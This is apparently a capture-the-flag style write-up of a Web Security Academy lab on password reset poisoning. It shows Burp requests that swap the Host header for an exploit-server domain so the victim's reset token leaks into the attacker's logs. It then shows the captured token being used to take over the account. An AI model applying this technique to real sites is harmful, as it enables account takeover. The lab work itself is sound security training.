 # Basic password reset poisoning

**Request:**
We can login using the credentials `wiener:peter`.

The goal is to gain access to the user `carlos` who will carelessly click on any links in emails that he receives.

**Solution:**
Using Burp Suite, on the website I clicked on the **forgot password** link, and gave the username as **carlos**.

```http
POST /forgot-password HTTP/2
Host: 0af2000e0441d0eb81caca2900a800a8.web-security-academy.net
...
```
I've sent this to the *Repeater* and went on to the *exploit server*, and copied the url, which I've put it on the Host.

```http
POST /forgot-password HTTP/2
Host: exploit-0ae5007d04ffd0b681a1c9a001e20037.exploit-server.net/exploit
...
```

After sending this request, on the logs of the exploit server, I received the request with the token and the full URL:

```http
GET /exploit/forgot-password?temp-forgot-password-token=als7iwktzwr7r8cct6m7ldrpmuxclyyj HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim)
...
```
Then I put this part of the URL, from `/forgot-password?...` and put it on the URL:

```
https://0af2000e0441d0eb81caca2900a800a8.web-security-academy.net/forgot-password?temp-forgot-password-token=als7iwktzwr7r8cct6m7ldrpmuxclyyj
```

Which prompted me to put the new password, and thus gained access.